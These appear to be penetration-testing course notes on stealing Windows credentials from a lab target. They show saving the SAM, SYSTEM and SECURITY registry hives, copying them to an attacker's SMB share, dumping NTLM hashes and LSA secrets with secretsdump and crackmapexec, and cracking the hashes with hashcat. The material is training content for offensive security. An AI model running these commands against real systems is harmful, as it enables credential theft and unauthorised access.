


## SAM Database
* [Security Account Manager](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc756748(v=ws.10)?redirectedfrom=MSDN) (`SAM`)
* Database file in Windows operating systems that stores users' passwords
* Can be used to authenticate local and remote users
* Uses cryptographic measures to prevent unauthenticated users from accessing the system
* Passwords stored in either an `LM` hash or an `NTLM` hash
* `%SystemRoot%/system32/config/SAM`, mounted on HKLM/SAM
* SYSTEM level permissions are required to view it
* Windows systems can be assigned to either a workgroup or domain during setup
* If the system has been assigned to a workgroup, it handles the SAM database locally and stores all existing users locally in this database
* If the system has been joined to a domain, the Domain Controller (`DC`) must validate the credentials from the Active Directory database (`ntds.dit`), which is stored in `%SystemRoot%\ntds.dit`
* Microsoft introduced a security feature in Windows NT 4.0 to help improve the security of the SAM database against offline software cracking
	* `SYSKEY` (`syskey.exe`) feature
* When enabled, partially encrypts the hard disk copy of the SAM file so that the password hash values for all local accounts stored in the SAM are encrypted with a key

#### Credential Manager
* Feature built-in to all Windows operating systems that allows users to save the credentials they use to access various network resources and websites
* Saved credentials are stored based on user profiles in each user's `Credential Locker`
Credentials are encrypted and stored at `PS C:\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\`



## Copying SAM Registry Hives
* Three registry hives that we can copy with admin access
* Each has a specific purpose when we get to dumping and cracking the hashes
* We can create backups of these hives using the `reg.exe` utility



#### Using reg.exe save to Copy Registry Hives
* Launching CMD as an admin allows us to run reg.exe to save copies of the aforementioned registry hives
* Technically we will only need `hklm\sam` & `hklm\system`, but `hklm\security` can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#### Creating a Share with smbserver.py
* All we must do to create the share is run smbserver.py -smb2support usingPpython, give the share a name (`CompData`) and specify the directory on our attack host where the share will be storing the hive copies (`/home/ltnbob/Documents`)
* Know that the `smb2support` option will ensure that newer versions of SMB are supported, without the use it will error out

```sh
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Moving Hive Copies to Share

```powershell
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

## Dumping Hashes with Impacket's secretsdump.py
* Useful tool to dump the hashes offline is Impacket's `secretsdump.py`

```sh
locate secretsdump 
```

#### Running secretsdump.py

```sh
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL 

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
```

* Secrets dump successfully dumps the `local` SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\\security
* The output format is displayed at the beginning of executing the programm

```sh
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```


## Cracking Hashes with Hashcat

```sh
sudo nano hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```

```sh
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

f7eb9c06fafaa23c4bcf22ba6781c1e2:dragon          
6f8c3f4d3869a10f3b4f0522f537fd33:iloveme         
184ecdda8cf1dd238d438c4aea4d560d:adrian          
31d6cfe0d16ae931b73c59d7e0c089c0:                
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: dumpedhashes.txt
Time.Started.....: Tue Dec 14 14:16:56 2021 (0 secs)
Time.Estimated...: Tue Dec 14 14:16:56 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14284 H/s (0.63ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 5/5 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Tue Dec 14 14:16:50 2021
Stopped: Tue Dec 14 14:16:58 2021
```

## Remote Dumping & LSA Secrets Considerations
* With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network
* This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords

#### Dumping LSA Secrets Remotely

```sh
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```

#### Dumping SAM Remotely

```sh
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```